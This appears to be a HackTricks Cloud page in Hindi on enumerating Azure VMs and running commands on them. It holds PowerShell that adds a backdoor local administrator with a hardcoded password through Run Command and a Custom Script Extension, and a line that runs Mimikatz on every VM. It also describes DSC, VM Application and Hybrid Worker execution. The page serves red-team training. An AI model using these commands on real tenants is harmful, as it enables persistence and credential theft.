 # Az - वर्चुअल मशीनें और नेटवर्क

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}

## बुनियादी जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure वर्चुअल मशीनें [ऑन-डिमांड, स्केलेबल कंप्यूटिंग संसाधनों](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) के कई प्रकारों में से एक हैं जो Azure प्रदान करता है। आमतौर पर, आप एक वर्चुअल मशीन चुनते हैं जब आपको अन्य विकल्पों की तुलना में कंप्यूटिंग वातावरण पर अधिक नियंत्रण की आवश्यकता होती है। यह लेख आपको बताता है कि आपको वर्चुअल मशीन बनाने से पहले क्या विचार करना चाहिए, आप इसे कैसे बनाते हैं, और आप इसे कैसे प्रबंधित करते हैं।

## Azure नेटवर्क जानकारी

Azure नेटवर्क में **विभिन्न संस्थाएँ और इसे कॉन्फ़िगर करने के तरीके शामिल हैं।** आप विभिन्न Azure नेटवर्क संस्थाओं के संक्षिप्त **विवरण,** **उदाहरण** और **गणना** कमांड पा सकते हैं:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure बैस्टियन

**Azure बैस्टियन** SSL के माध्यम से Azure पोर्टल पर एक सुरक्षित, पूरी तरह से प्रबंधित RDP (रिमोट डेस्कटॉप प्रोटोकॉल) और SSH (सिक्योर शेल) एक्सेस समाधान प्रदान करता है। यह Azure वर्चुअल नेटवर्क के भीतर एकीकृत है, जो निजी आईपी का उपयोग करके VMs के लिए RDP और SSH कनेक्टिविटी की अनुमति देता है, जिससे सार्वजनिक आईपी की आवश्यकता समाप्त हो जाती है। यह सार्वजनिक आईपी असाइनमेंट और VM एक्सेस के लिए NSG नियम कॉन्फ़िगरेशन से संबंधित पारंपरिक तरीकों की तुलना में एक सुरक्षित, अधिक सुविधाजनक विकल्प बनाता है। डेवलपर्स और IT कर्मी Azure पोर्टल से अपने वेब ब्राउज़रों का उपयोग करके VMs तक सुरक्षित रूप से पहुँच सकते हैं, विकास और परीक्षण वातावरण के लिए प्रक्रिया को सरल बनाते हैं।

आप अपनी सदस्यता में सभी Azure बैस्टियन होस्ट की सूची बनाने के लिए निम्नलिखित कमांड का उपयोग कर सकते हैं:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM सूचीकरण
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM में कमांड चलाएँ**

### **VM में AAD लॉगिन**

AzureAD के माध्यम से प्रमाणित उपयोगकर्ताओं को पहुँच की अनुमति देना संभव है। उदाहरण के लिए, एक **linux VM** तक पहुँचने की कोशिश करते समय: `ssh username@azure-corp.com@1.1.1.1` (लॉगिन करने की कोशिश करते समय azurecorp के साथ उपयोग की गई **ईमेल** का **उपयोग करना** महत्वपूर्ण है) आपको एक त्रुटि मिल सकती है:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

बस **उन निर्देशों का पालन करें** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) पर जाकर और कोड को इंगित करते हुए, ईमेल और पासवर्ड को क्रेडेंशियल के रूप में उपयोग करें और आप SSH के माध्यम से कनेक्ट करने में सक्षम होंगे (यदि उस उपयोगकर्ता के पास ऐसा करने के लिए पर्याप्त अनुमतियाँ हैं: `Virtual Machine Administrator Login` या `Virtual Machine User Login` भूमिका)।

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **कस्टम स्क्रिप्ट एक्सटेंशन चलाएँ**

Azure वर्चुअल मशीन (VM) एक्सटेंशन **छोटी एप्लिकेशन** हैं जो **Azure VMs** पर पोस्ट-डिप्लॉयमेंट कॉन्फ़िगरेशन और ऑटोमेशन **कार्य** प्रदान करती हैं। उदाहरण के लिए, यदि एक वर्चुअल मशीन को सॉफ़्टवेयर इंस्टॉलेशन, एंटीवायरस सुरक्षा, या इसके अंदर एक स्क्रिप्ट चलाने की आवश्यकता है, तो आप एक VM एक्सटेंशन का उपयोग कर सकते हैं।

इसलिए, यदि आपके पास इसे लिखने का एक्सेस है, तो आप मनमाना कोड निष्पादित कर सकते हैं:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) एक PowerShell उपकरण है जो Ansible के समान है, जिसका उपयोग कोड के माध्यम से एक होस्ट को सेटअप करने के लिए किया जाता है। DSC Azure के साथ एकीकृत होता है, जिससे विशिष्ट कॉन्फ़िगरेशन फ़ाइलों को अपलोड करना संभव होता है। इन फ़ाइलों को एक सख्त सिंटैक्स का पालन करना चाहिए। विशेष रूप से, Azure में DSC एक्सटेंशन उन फ़ाइलों से कमांड निष्पादित कर सकता है जो कुछ प्रारूप मानदंडों को पूरा करती हैं, भले ही सिंटैक्स DSC मानकों के लिए सही न हो, जैसा कि प्रदान की गई आकृति में दिखाया गया है।

इन कमांडों का निष्पादन Az PowerShell में [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) फ़ंक्शन द्वारा किया जाता है। आवश्यकताओं में एक **.PS1** फ़ाइल शामिल है जिसमें एक परिभाषित फ़ंक्शन है और फ़ाइल को **.zip** फ़ाइल में संकुचित किया जाना चाहिए। भले ही सिंटैक्स DSC के लिए सटीक न हो, कोड फिर भी निष्पादित होगा। हालाँकि, एक्सटेंशन निष्पादन स्थिति को "विफलता" के रूप में चिह्नित करेगा, और कमांड से कोई आउटपुट दिखाई नहीं देगा क्योंकि स्थिति को विफलता संदेश द्वारा अधिलेखित किया गया है।

### VM Application Definitions

VM Application Definitions Azure VM पर संस्करणित अनुप्रयोगों की पुनरावृत्त तैनाती की अनुमति देती हैं। यह संसाधन VMs के बीच अनुप्रयोगों की तैनाती और अद्यतन का समर्थन करता है। इसे सेट करने के लिए, कई चरणों की आवश्यकता होती है, जिसमें Az PowerShell में **`New-AzGalleryApplication`** और **`New-AzGalleryApplicationVersion`** जैसे कमांड शामिल हैं।

इस विधि के माध्यम से अनुप्रयोगों या कमांडों का निष्पादन **"VMAppExtension"** के माध्यम से होता है, जो स्वचालित रूप से तब स्थापित होता है जब एक अनुप्रयोग को VM पर लागू किया जाता है। एक्सटेंशन निर्दिष्ट URI से फ़ाइल को पुनः प्राप्त करता है और इसे ठीक उसी नाम से नामित करता है जैसे अनुप्रयोग, बिना किसी एक्सटेंशन के। फ़ाइल को सही ढंग से निष्पादित करने के लिए, REST API कॉल में "ManageActions" फ़ील्ड को उचित एक्सटेंशन के साथ फ़ाइल का नाम बदलने के लिए कॉन्फ़िगर किया जाना चाहिए। इस विधि की सेटअप, एक बार पूर्ण होने पर, प्रदान की गई आकृति में दिखाए गए ढांचे के समान होगी।

हालाँकि, निष्पादन की यह विधि अपेक्षाकृत धीमी है, एक अनुप्रयोग या कमांड को निष्पादित करने में लगभग 3-4 मिनट लगते हैं। इस प्रक्रिया से संबंधित फ़ाइलें विशिष्ट निर्देशिकाओं में संग्रहीत होती हैं (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` अनुप्रयोग कॉपी के लिए और `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` निष्पादन स्थिति के लिए)।

दोनों तकनीकें Azure वातावरण में कमांड निष्पादित करने और अनुप्रयोगों को तैनात करने के अद्वितीय तरीके प्रदान करती हैं, प्रत्येक के अपने सेट आवश्यकताएँ, चरण और विचार होते हैं।

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) Azure में एक विशेषता है जो Automation Account में कॉन्फ़िगर किए गए Runbooks को एक Azure Virtual Machine (VM) पर निष्पादित करने की अनुमति देती है जो निर्दिष्ट HWG का हिस्सा है। यह निष्पादन VM पर स्थापित एक एक्सटेंशन के माध्यम से किया जाता है, जो VM पर Runbook कोड को तैनात करता है। इस प्रक्रिया का एक महत्वपूर्ण पहलू यह है कि वास्तविक क्रेडेंशियल्स निष्पादन में एक कारक नहीं होते हैं क्योंकि कोड उच्च विशेषाधिकारों के साथ चलता है, विशेष रूप से **SYSTEM** या रूट के रूप में, जैसा कि प्रदान की गई आकृति में दर्शाया गया है।

Windows 10 VMs का उपयोग करने वालों के लिए एक महत्वपूर्ण विवरण यह है कि Runbook के लिए PowerShell संस्करण को निर्दिष्ट करना आवश्यक है। इसे PowerShell संस्करण 5.1 के रूप में चलाने के लिए सेट किया जाना चाहिए, न कि 7.1 के रूप में। यह आवश्यकता इस तथ्य से उत्पन्न होती है कि PowerShell 7.1 इन VMs पर डिफ़ॉल्ट रूप से स्थापित नहीं है, जिससे यदि संस्करण 7.1 निर्दिष्ट किया जाता है तो स्क्रिप्ट निष्पादन में विफलता होती है।

Azure की यह विशेषता हाइब्रिड वातावरण में कार्यों को स्वचालित और प्रबंधित करने के लिए एक मजबूत विधि प्रदान करती है, Azure VMs पर कार्यों के केंद्रीकृत प्रबंधन और निष्पादन की अनुमति देती है।

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
